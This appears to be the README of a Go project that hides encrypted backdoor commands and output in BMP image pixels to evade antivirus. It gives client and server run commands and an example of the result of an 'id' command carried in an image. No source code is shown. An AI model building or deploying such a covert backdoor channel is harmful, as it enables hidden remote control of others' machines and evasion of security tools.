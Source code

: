 # Go-BMP-Backdoor

Inspired by [Transferring Backdoor Payloads with BMP Image Pixels](https://www.peerlyst.com/posts/transferring-backdoor-payloads-with-bmp-image-pixels-damon-mohammadbagher), I write a Go version.

Encrypt backdoor payloads in .bmp files to bypass AV.

## Example

![](./client_send.bmp)

base64 encoded `uid=1000(amyang) gid=1000(amyang) groups=1000(amyang),10(wheel),14(uucp),54(lock),56(bumblebee),95(storage),108(vboxusers),1001(usbfs)`

## Usage

gopher.bmp is required, in order to be more normal.

### Client

`./client_linux -server 127.0.0.1 -port 1337`

so is client_windows.exe

### Server

`./server -port 1337`